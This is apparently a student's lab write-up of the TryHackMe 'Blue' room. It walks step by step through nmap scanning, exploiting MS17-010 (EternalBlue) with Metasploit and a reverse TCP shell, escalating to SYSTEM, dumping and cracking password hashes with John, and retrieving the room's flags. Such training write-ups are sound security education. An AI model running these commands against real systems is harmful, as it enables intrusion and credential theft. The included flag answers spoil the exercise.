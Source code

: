 ```yaml
---
Title: SWS101 report4
categories: [SWS101, report4]
tags: [SWS101]
---
```


# TryHackMe - Blue
Deploy & hack into a Windows machine, leveraging common misconfigurations issues.

## Task 1: Recon
Scan the Machine:
Utilize Nmap to scan all ports for service enumeration.

    sudo nmap -sS -sV -T4 -p- 10.10.203.99 -vv
Result: 3 ports under 1000 are open: 135, 139, and 445.

Identify Vulnerability:
Run Nmap script scanning to identify vulnerabilities.

    sudo nmap -sS -sV -T4 --script=vuln -p 135,139,445 10.10.203.99 -vv
Result: The machine is vulnerable to "ms17-010" exploit targeting SMB service.

## Task 2: Gain Access
Start Metasploit:
Launch Metasploit to utilize its modules for exploitation.

    msfconsole
Find Exploitation Code:
Search for the exploit code targeting the identified vulnerability.

    search ms17-010
Result: Exploit path: exploit/windows/smb/ms17_010_eternalblue

Set Required Value:
Set the RHOSTS (Target IP) parameter.

    set RHOSTS 10.10.136.254

Set Payload:
Set the payload for the exploit.

    set payload windows/x64/shell/reverse_tcp
Run Exploit:
Execute the exploit to gain access to the target.

    exploit/run

## Task 3: Escalation
Convert to Meterpreter Shell:
Background the current shell and research the conversion process.

    CTRL + Z
Identify Post Module:
Search for the post module to convert shell to Meterpreter.

    search post/multi/manage/shell_to_meterpreter
Set Required Options:
Set the LHOST (Attacker's IP) and SESSION parameters.

    set LHOST <attacker_ip>
    set SESSION <session_number>
Run Module:
Execute the module to convert shell to Meterpreter.

run
Verify Privilege Escalation:
Check if escalated to NT AUTHORITY\SYSTEM.

    getsystem
Migrate Process:
Migrate to a process running as NT AUTHORITY\SYSTEM.

    ps
    migrate <process_id>

## Task 4: Cracking
Dump Password Hashes:
Dump password hashes using Meterpreter shell.

    hashdump
Crack Password Hash:
Save the hash and crack it using John the Ripper.

    echo "Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::" > windowshash
    john --format=NT windowshash --wordlist=/usr/share/wordlists/rockyou.txt

## Task 5: Find Flags
Flag 1:
Locate the flag at the system root.

    C:\flag{access_the_machine}
flag{access_the_machine}

Flag 2:
Find the flag where passwords are stored within Windows.

    C:\Windows\System32\config\flag{sam_database_elevated_access}
flag{sam_database_elevated_access}

Flag 3:
Search for the flag in an excellent location to loot.

    C:\Windows\Users\<username>\flag{admin_documents_can_be_valuable}
flag{admin_documents_can_be_valuable}

Happy Hacking;>